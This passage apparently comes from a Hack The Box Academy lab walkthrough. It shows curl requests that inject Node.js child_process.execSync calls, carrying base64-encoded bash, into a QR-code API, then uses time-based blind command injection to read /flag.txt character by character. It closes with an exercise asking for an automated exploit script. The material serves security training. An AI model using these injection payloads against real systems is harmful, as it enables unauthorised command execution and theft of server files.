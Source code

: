 ```
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMiBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m0.169s
user	0m0.006s
sys	0m0.000s

┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMyBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m0.171s
user	0m0.003s
sys	0m0.003s

┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gNCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m2.171s
user	0m0.001s
sys	0m0.005s
```

At last, students will confirm that the number found in the third position of the flag is `4`. Therefore, the full contents of the flag reads `214`.

Answer: `214`

# Exploit Development

## Question 1

### "This exercise is the same one we have been testing, but it always returns a generic error message, so you cannot inject the command output in the response. Use what you learned in this section to write an exploit that automates the time-based blind exploitation process we covered in the previous section to read the flag at /flag.txt. Hint: The flag starts with HTB{, so you can use this as a measure of accuracy, and increase the sleep amount if your script misses some characters."
